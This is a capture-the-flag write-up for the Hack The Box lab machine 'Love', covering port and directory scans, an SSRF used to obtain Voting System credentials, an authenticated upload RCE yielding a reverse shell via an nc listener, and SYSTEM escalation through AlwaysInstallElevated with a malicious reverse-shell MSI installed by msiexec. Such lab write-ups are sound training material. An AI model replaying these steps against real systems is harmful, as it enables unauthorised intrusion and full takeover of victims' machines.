





# Love

## Machine Info



## Recon

### port

- 80, http; 443 https (403 forbidden); 5000 http Apache (403 forbidden)
- smb, rpc, mysql

```console
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, NULL, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe:
|_    Host '10.10.16.18' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2024-02-26T13:30:22+00:00; +21m07s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn:
|_  http/1.1
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=2/26%Time=65DC8CCB%P=x86_64-pc-linux-gnu%r
SF:(NULL,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.16\.18'\x20is\x20not\x20al
...
SF:ost\x20'10\.10\.16\.18'\x20is\x20not\x20allowed\x20to\x20connect\x20to\
SF:x20this\x20MariaDB\x20server");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|Longhorn|2019|2008|7|Vista|11|8.1|2012 (95%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 10 1709 - 1909 (95%), Microsoft Windows Longhorn (95%), Microsoft Windows 10 2004 (93%), Microsoft Windows Server 2019 (93%), Microsoft Windows 10 1703 (93%), Microsoft Windows Server 2008 R2 (93%), Microsoft Windows 7 SP1 (93%), Microsoft Windows Vista SP1 (93%), Microsoft Windows 10 1709 - 1803 (93%), Microsoft Windows 10 1809 - 2004 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### domains

- htb, love
- love.htb
- staging.love.htb

### path: love.htb

Voting System using PHP: `http://love.htb`

Site Github Repo: [here](https://github.com/harikutty5896/online-voting-system-using-PHP?tab=readme-ov-file)

Exploits: [Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution) ](https://www.exploit-db.com/exploits/49445)

```console
└─╼$ gobuster dir -u http://love.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 128 -x php -b 400,403,404 --no-error
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://love.htb/
[+] Method:                  GET
[+] Threads:                 128
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   400,403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 302) [Size: 0] [--> index.php]
/index.php            (Status: 200) [Size: 4388]
/images               (Status: 301) [Size: 330] [--> http://love.htb/images/]
/home.php             (Status: 302) [Size: 0] [--> index.php]
/Images               (Status: 301) [Size: 330] [--> http://love.htb/Images/]
/admin                (Status: 301) [Size: 329] [--> http://love.htb/admin/]
/Home.php             (Status: 302) [Size: 0] [--> index.php]
/plugins              (Status: 301) [Size: 331] [--> http://love.htb/plugins/]
/includes             (Status: 301) [Size: 332] [--> http://love.htb/includes/]
/Index.php            (Status: 200) [Size: 4388]
/Login.php            (Status: 302) [Size: 0] [--> index.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/preview.php          (Status: 302) [Size: 0] [--> index.php]
/dist                 (Status: 301) [Size: 328] [--> http://love.htb/dist/]
/examples             (Status: 503) [Size: 398]
/IMAGES               (Status: 301) [Size: 330] [--> http://love.htb/IMAGES/]
/INDEX.php            (Status: 200) [Size: 4388]
/Admin                (Status: 301) [Size: 329] [--> http://love.htb/Admin/]
/Plugins              (Status: 301) [Size: 331] [--> http://love.htb/Plugins/]
/HOME.php             (Status: 302) [Size: 0] [--> index.php]
/Logout.php           (Status: 302) [Size: 0] [--> index.php]
/Preview.php          (Status: 302) [Size: 0] [--> index.php]
/Includes             (Status: 301) [Size: 332] [--> http://love.htb/Includes/]
/Dist                 (Status: 301) [Size: 328] [--> http://love.htb/Dist/]
/LogIn.php            (Status: 302) [Size: 0] [--> index.php]
/LOGIN.php            (Status: 302) [Size: 0] [--> index.php]
/preView.php          (Status: 302) [Size: 0] [--> index.php]
/DIST                 (Status: 301) [Size: 328] [--> http://love.htb/DIST/]
/indeX.php            (Status: 200) [Size: 4388]
```

### web

- `http://staging.love.htb`: **File Scanner** -> SSRF[?]



## Foothold

### SSRF + Voting System Authenticated RCE

Payload: `http://127.0.0.1:5000`



Exploit code alerting:



```console
└─╼$ python exp.py
Start a NC listner on the port you choose above and run...
Logged in
Poc sent successfully

└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.48.103] 57911
b374k shell : connected

Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe
```

## Privilege Escalation

### Enumeration

WinPEAS Output: `AlwaysInstallElevated`

Reference: [Windows Local Privilege Escalation | HackTricks | HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated)

If these 2 registers are enabled (value is 0x1), then users of any privilege can install (execute) *.msi files as NT AUTHORITY\SYSTEM.

```console
C:\xampp\htdocs>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\xampp\htdocs>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

### AlwaysInstallElevated: install malicious msi

1. msfvenom to create reverse shell msi
2. certutil to upload msi into Windows
3. msiexec to install uploaded msi: `msiexec /qn /i revshell.msi` (/qn: quiet & no gui)



## Exploit Chain

port scan: http, https (80, 443, 5000), subdomains -> vulnerable Voting System & ssrf subdomain site -> ssrf: voting system's credential -> RCE: phoebe shell -> enum privilege: AlwaysInstallElevated -> msiexec install malicious msi(revshell) -> system privilege
